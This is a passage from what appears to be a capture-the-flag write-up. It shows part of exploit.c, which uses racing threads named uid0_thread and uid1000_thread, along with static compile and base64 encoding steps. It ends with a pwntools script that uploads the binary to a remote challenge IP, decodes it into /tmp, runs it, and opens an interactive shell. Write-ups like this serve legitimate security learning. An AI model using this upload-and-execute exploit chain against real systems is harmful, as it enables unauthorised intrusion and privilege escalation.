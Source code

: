 ```exploit.c``` is as follows:

int main(int argc, char *argv[])
{
    pthread_t t1;
    pthread_t t2;
    pthread_create(&t1, NULL, uid0_thread, NULL);
    pthread_create(&t2, NULL, uid1000_thread, NULL);

    pthread_join(t1, NULL); // pthread_join to keep running even after main exists
    pthread_join(t2, NULL);
}
```

For the final remote exploitation, we are going to send the binary to the remote server using base64 encoding since I believe it's a good practice.

We are going to compile exploit.c using ```musl-gcc``` because it supports execution in cross platforms and it also makes the binary small.
We will also need to compile it statically since the remote environment lacks gcc and linker.

We can compile the binary using:
```bash
x86_64-linux-musl-gcc exploit.c -o exploit -s -static -lpthread
```

and encode it using:
```bash
cat exploit|base64 > output.txt
```

### Remote
In the remote exploitation Python script, I will read from ```output.txt``` and send it to the server and run it there.

The final remote exploit is as follows:
```python
#!/usr/bin/python3
from pwn import *
import os
context.log_level='debug'
context.arch='amd64'
ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)

# os.system("x86_64-linux-musl-gcc exploit.c -o exploit -s -static -lpthread")
# os.system("cat exploit|base64 > output.txt")

p = remote("143.110.166.8", 31343)

content=""

with open('output.txt') as openfileobject:
    content=openfileobject.read()

sla(b"$ ", 'cd /tmp && echo "'+content+'" | base64 -d > exploit')
sla(b"$ ", b"chmod +x exploit && ./exploit")

p.interactive()
```
